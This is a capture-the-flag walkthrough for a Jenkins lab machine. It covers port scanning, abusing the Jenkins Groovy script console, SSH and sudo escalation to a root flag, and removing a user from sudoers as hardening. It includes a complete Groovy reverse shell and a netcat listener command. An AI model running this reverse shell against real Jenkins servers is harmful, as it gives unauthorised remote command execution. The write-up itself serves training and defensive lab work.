 #  Sleighing Threats, One Layer at a Time

## Solution
- Hit "Start Machine" and open the Split Screen View or connect through RDP.
- What is the default port for Jenkins?
```bash
sudo nmap -T4 10.10.99.188 
```

![Alt text](image.png)

- What is the password of the user tracy?
Groovy script can be run in Jenkins under the link http://10.10.99.188:8080/manage/script. A Groovy reverse shell can be run.
Start the listener on the attacker machine.
```bash
nc -lvnp 9999
```
Run the Groovy script in the console.
```bash
String host="attacking machine IP here";
int port=9999;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![Alt text](image-1.png)

Browse the /opt/scripts folder to find interesting files.

![Alt text](image-2.png)

- What's the root flag?
Now we can ssh as tracy user into the target machine.
```bash
ssh tracy@IP
```
Notice tracy user can run all the commands as sudo!
It can be verified running:
```bash
sudo -l
```

![Alt text](image-3.png)

Run the following command to get the root flag:
```bash
sudo cat /root/flag.txt
```

![Alt text](image-4.png)

- What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?
Remove tracy user from the sudoers.
```bash
sudo deluser tracy sudo
```
SSH again into the server as tracy and run:
```bash
sudo -l
```

![Alt text](image-5.png)

- What's the SSH flag?
```bash
cat /etc/ssh/sshd_config
```

![Alt text](image-6.png)

- What's the Jenkins flag?
```bash
cat /var/lib/jenkins/config.xml.bak
```

![Alt text](image-7.png)
